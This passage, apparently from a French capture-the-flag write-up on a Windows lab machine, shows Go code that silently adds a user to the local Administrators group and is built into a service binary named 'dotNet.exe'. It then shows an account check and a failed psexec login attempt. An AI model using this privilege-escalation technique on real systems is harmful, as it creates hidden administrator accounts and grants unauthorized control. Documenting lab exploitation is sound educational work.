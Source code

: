 ```go

        cmd2 := exec.Command("cmd.exe", "/c", "net", "localgroup", "administrators", newAdminUser, "/add")
        cmd2.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
        output2, err2 := cmd2.CombinedOutput()
        if err2 != nil {
                fmt.Printf("Erreur lors de l'ajout de '%s' au groupe Administrators : %v\nSortie : %s\n", newAdminUser, err2, string(output2))
        } else {
                fmt.Printf("Utilisateur '%s' ajouté au groupe Administrators avec succès. Sortie : %s\n", newAdminUser, string(output2))
        }

        fmt.Println("--- Fin de l'exécution du script de création d'utilisateur ---")
}
```

Pour le compiler avec la version 1.20 de Go j'utiliser une image docker officielle : 

```bash
docker run --rm -v "$(pwd):/app" golang:1.20 sh -c "cd /app && CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -o dotNet.exe main.go"
```

Au lancement du service, toujours une erreur, mais c'est la bonne, car le binaire n'a pas toutes les exigences de Windows pour un service :

```
[SC] StartService BAžARISIZ - 1053:

Hizmet, belirli aralklarla yaplan baŸlama veya denetim iste§ine yant vermedi.

Returned: 0
```

Je peux vérifier ça avec `net user` :

```console
SHELL> net user

\\ Kullanıcı Hesapları

-------------------------------------------------------------------------------
Administrator            ctfadmin                 Guest                    
quoted                   
Komut bir veya daha fazla hata ile tamamlandı.
```

### Highway to shell

J'espérais pouvoir alors me connecter avec `psexec` mais une fois de plus, raté !

```console
$ psexec.py ctfadmin@192.168.56.111
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 192.168.56.111.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```
